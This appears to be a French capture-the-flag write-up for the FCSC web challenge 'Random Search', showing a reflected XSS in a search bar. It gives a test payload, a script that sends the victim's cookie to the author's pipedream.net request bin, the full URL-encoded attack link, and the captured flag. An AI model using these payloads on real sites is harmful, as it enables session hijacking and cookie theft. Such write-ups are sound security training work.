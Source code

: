 # Random Search
<img src="https://media.discordapp.net/attachments/768928242467340328/840138995673071616/unknown.png"/><br/>
Challenge web super basique, on doit trouver un moyen de voler le cookie de l'administrateur.<br/>
## Résolution
En visitant le site qui nous est donné, je vois deux points intéressants.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/840139522376335370/unknown.png?width=1440&height=550"/><br/>
On a un contexte d'XSS plutôt récurrent où on peut contacter l'administrateur.<br/>
On a notamment un searchbar à notre disposition. Je décide m'attaquer dessus.<br/>
Premièrement je teste cette payload ```<svg/onload=prompt();>```.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/840140153799311380/unknown.png?width=1440&height=470"/><br/>
Le searchbar est vulnérable aux attaques XSS. On a donc notre point d'injection.<br/>
En premier temps je crée un requestbin sur https://pipedream.com/ <br/>
Cette payload est une redirection vers mon pipedream.<br/><br/>
```<script>document.location="https://enx36kg9aihcldt.m.pipedream.net?cookie="+document.cookie;</script>```<br/><br/>
Je pose la payload dans le paramètre search.<br/><br/>
```http://challenges2.france-cybersecurity-challenge.fr:5001/index.php?search=%3Cscript%3Edocument.location%3D%22https%3A%2F%2Fenx36kg9aihcldt.m.pipedream.net%3Fcookie%3D%22%2Bdocument.cookie%3B%3C%2Fscript%3E```<br/><br/>
J'envoie ce lien dans le contact et après quelques minutes j'ai un retour sur mon pipedream.<br/>
Et hop je vois le flag dans le header cookie.<br/><br/>
```?cookie=admin=FCSC{4e0451cc88a9a96e7e46947461382008d8c8f4304373b8907964675c27d7c633}```
